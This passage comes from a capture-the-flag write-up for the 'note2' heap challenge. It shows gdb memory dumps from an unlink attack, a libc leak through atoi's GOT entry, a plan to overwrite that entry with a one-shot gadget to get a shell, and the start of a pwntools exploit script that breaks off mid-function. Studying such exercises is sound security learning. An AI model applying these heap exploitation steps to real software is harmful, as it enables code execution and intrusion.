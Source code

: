 ```
0x25f5140:    0x0    0x20ec1
0x25f5150:    0x0    0x0
0x25f5160:    0x0    0x0
0x25f5170:    0x0    0x0
0x25f5180:    0x0    0x0
```

Just like that, the unlink was a success. Now we can use the pointer at `0x602120` to edit the array itself and overwrite pointers, than write to or print the data pointed to by those pointers. For this I wrote the got address of `atoi` to `0x602120`, and printed it for a libc infoleak:

```
gef➤  x/4g 0x602120
0x602120:    0x602088    0x0
0x602130:    0x0    0x25f50a0
gef➤  x/g 0x602088
0x602088 <atoi@got.plt>:    0x7f1df5482e80
```

After that, we can just write a oneshot gadget to `atoi`, and when it gets called (which it does throughout the program) we will get a shell. I choose this one since the first few I tried didn't work for some reason (too tired from work to debug it, so I just tried a few other functions).

## Exploit

Putting it all together, we get the following exploit. This exploit was ran on Ubuntu 16.04:

```
from pwn import *

# Establish the target process, binary, and libc
target = process("./note2", env={"LD_PRELOAD":"./libc-2.23.so"})
elf = ELF('note2')
libc = ELF('libc-2.23.so')

# You were expecting a comment, BUT IT WAS ME DIO!
#gdb.attach(target)

# Establish our io functions
def addNote(content, size):
    print target.recvuntil("option--->>")
    target.sendline("1")
    print target.recvuntil("(less than 128)")
    target.sendline(str(size))
    print target.recvuntil("content:")
    target.send(content)

def editNote(index, content, app):
    print target.recvuntil("option--->>")
    target.sendline("3")
    print target.recvuntil("note:")
    target.sendline(str(index))
    print target.recvuntil("2.append]")
    target.sendline(str(app))
    print target.recvuntil("TheNewContents:")
    target.sendline(content)

def deleteNote(index):
    print target.recvuntil("option--->>")
    target.sendline("4")
    print target.recvuntil("note:")
    target.sendline(str(index))

def showNote(index):
    print target.recvuntil("option--->>")
```